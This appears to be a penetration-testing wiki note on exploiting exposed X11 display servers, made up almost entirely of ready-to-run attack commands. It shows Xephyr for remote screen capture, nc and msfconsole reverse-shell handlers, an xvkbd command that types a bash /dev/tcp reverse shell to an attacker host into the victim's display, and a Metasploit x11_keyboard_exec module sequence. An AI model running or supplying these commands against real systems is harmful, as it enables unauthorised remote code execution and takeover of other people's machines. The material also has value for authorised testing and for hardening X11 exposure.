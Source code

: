 # X11

## 01 - Manual

### 1.1 - Remote Screen

```
$ Xephyr -from <attacker_IP> -query <target_IP> -screen 800x600 :1
```

### 1.2 - Implant Callback

Launch a shell handler.

```
$ nc -lnvp <attacker_PORT>

$ sudo msfconsole -qx "use exploit/multi/handler; set payload cmd/unix/reverse_bash; set lhost <attacker_IP>; set lport <attacker_PORT>; run"
```

Execute the command with one-liner shell.

```
$ xvkbd -no-repeat -no-sync -no-jump-pointer -remote-display <target_IP>:1 -text "/bin/bash -i > /dev/tcp/<attacker_IP>/<attacker_PORT> <&1 2>&1\r"
```

## 02 - Metasploit

```
msf > use exploit/unix/x11/x11_keyboard_exec

msf exploit(unix/x11/x11_keyboard_exec) > set payload linux/x64/metepreter/reverse_tcp

msf exploit(unix/x11/x11_keyboard_exec) > options

msf exploit(unix/x11/x11_keyboard_exec) > set rhost <target_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lhost <attacker_IP>

msf exploit(unix/x11/x11_keyboard_exec) > set lport <attacker_PORT>

msf exploit(unix/x11/x11_keyboard_exec) > set time_wait 10

msf exploit(unix/x11/x11_keyboard_exec) > run
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/03 - Vulnerable Network Protocols/Remote Services/X11|Vulnerability Assessment: Remote Services - X11]]

- [Bordergate: Pentesting X11](https://www.bordergate.co.uk/pentesting-x11/)